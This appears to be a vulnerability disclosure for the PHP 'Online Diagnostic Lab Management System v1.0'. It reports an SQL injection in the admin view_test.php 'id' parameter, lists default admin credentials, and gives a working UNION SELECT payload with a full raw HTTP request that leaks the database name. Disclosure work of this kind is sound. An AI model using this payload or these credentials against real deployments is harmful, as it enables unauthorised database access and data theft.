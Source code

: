 # Online Diagnostic Lab Management System v1.0 by oretnom23 has SQL injection

BUG_Author: Zhangyushi

Login account: admin/admin123 (Super Admin account)

Login account: cblake@sample.com/cblake123 (General account)

vendors: https://www.sourcecodester.com/php/15129/online-diagnostic-lab-management-system-php-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /odlms/admin/tests/view_test.php?id=

Vulnerability location: /odlms/admin/tests/view_test.php?id=,id

dbname=odlms_db,length=8

[+] Payload: /odlms/admin/tests/view_test.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ // Leak place ---> id

```sql
GET /odlms/admin/tests/view_test.php?id=-1%27%20union%20select%201,database(),3,4,5,6,7,8--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=5g4g4dffu1bkrg9jm7nr42ori2
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/191256060-31da9924-6846-4c59-b762-b84986cc7dc9.png)
